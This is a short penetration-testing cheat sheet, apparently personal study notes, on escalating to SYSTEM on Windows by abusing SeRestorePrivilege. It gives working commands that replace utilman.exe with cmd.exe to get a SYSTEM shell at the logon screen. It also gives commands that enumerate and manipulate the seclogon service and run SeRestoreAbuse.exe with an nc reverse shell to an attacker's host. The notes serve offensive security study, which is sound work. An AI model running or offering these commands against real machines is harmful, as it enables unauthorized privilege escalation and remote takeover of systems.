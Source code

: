 ```yaml
---
title: Special Privileges
parent: Method (Windows)
layout: default
nav_order: 10
---
```


## Special Privileges?
1. Check hacktrickz, payloadallthethings, and https://github.com/hatRiot/token-priv/tree/master/poptoke/poptoke for POC.

## SeRestorePrivilege GUI way:
1. If privilege not enabled, run `EnableSeRestorePrivilege.ps1` to enable it. (Evil-WinRM default enabled it)
2. Replace the utilman.exe with cmd.exe:\
   `mv C:\Windows\System32\utilman.exe C:\Windows\System32\utilman.old`\
   `mv C:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe`
3. Rdesktop to the machine:\
   `rdesktop targetIP`\
   OR `rdesktop -u user targetIP`
4. On the logon page, press **WIN + U** and a SYSTEM shell will be spawned.

## SeRestorePrivilege Non GUI way:
1. Need to find a service that requires us to start manually. Can use the following commands:\
   `sc queryex state=all type=service`\
   `Get-Service | findstr -i "manual"`
2. If no privilege to run above, can try the seclogon service (Check object name is LocalSystem and start value is 0x3 which is manual, and we have the required privilege):\
   `reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\seclogon`
   `cmd.exe /c sc qc seclogon`
3. Using the following command, check if we can manipulate the service:\
   `sc sdshow seclogon` (make sure AU or WD has RP)
4. Using SeRestoreAbuse.exe, run the following (by default it is using seclogon in the exploit, change if needed) can put reverse shell also if don't want to use nc:\
   `SeRestoreAbuse.exe "C:\users\public\nc.exe kaliIP kaliPort -e cmd.exe"`
